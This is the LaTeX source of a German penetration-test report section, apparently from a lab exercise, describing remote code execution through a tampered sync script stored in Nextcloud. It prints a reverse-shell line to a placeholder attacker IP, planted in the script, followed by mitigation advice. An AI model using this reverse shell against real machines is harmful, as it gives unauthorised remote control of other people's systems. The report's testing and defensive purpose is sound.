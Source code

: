 \section{\makecvssbadge Remote Code Execution (RCE)}

\subsection*{Proof of concept} 
Der Nutzer \textit{butterbluem} nutzt ein einfaches Bash-Skript, um das Home-Verzeichnis seines Rechners mit der Nextcloud zu synchronisieren. Dieses Skript ist ebenfalls in den Dateien des Nutzers auf der Nextcloud zu finden. Durch die Anpassung des Skripts kann eine Reverse Shell initiiert werden, da das Skript regelmäßig auf dem Rechner \textit{butterbluem} ausgeführt wird. Zunächst wird dazu ein Netcat-Listener auf dem System des Angreifers gestartet, wie in \autoref{listing:netcat-listener} beschrieben. Anschließend muss das Bash-Skript zur Synchronisation angepasst werden, wie in \autoref{listing:butterbluem:backup} dargestellt. Beim darauffolgenden Aufruf des Bash-Skripts wird die Revers Shell gestartet und der Angreifer erhält vollen Zugriff auf den Rechner \textit{butterbluem}. Ein Nachweis ist in \autoref{fig:08_butterbluem_proof} dargestellt. 

\begin{listing}[!ht]
\begin{verbatim}
#!/bin/bash


bash -c 'bash -i >& /dev/tcp/<Angreifer-IP>/9001 0>&1'

rsync -avP /mnt/backup/* /home/butterbluem/
\end{verbatim}
\caption{Datei backup-home.sh}
\label{listing:butterbluem:backup}
\end{listing}

\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/08_butterbluem_proof.png}
    \caption{Proof für die Webanwendung Maggot's Pilzboard}
    \label{fig:08_butterbluem_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Das Bash-Skript zur Synchronisierung des Home-Verzeichnisses kann durch eine digitale Signatur oder ein Hash abgesichert werden. Dadurch können Änderungen an dem Skript erkannt werden und das Skript dadurch abgebrochen werden.
    \item Mit Firewall-Regeln können außerdem Reverse-Shell Verbindungen unterbunden werden.
\end{itemize}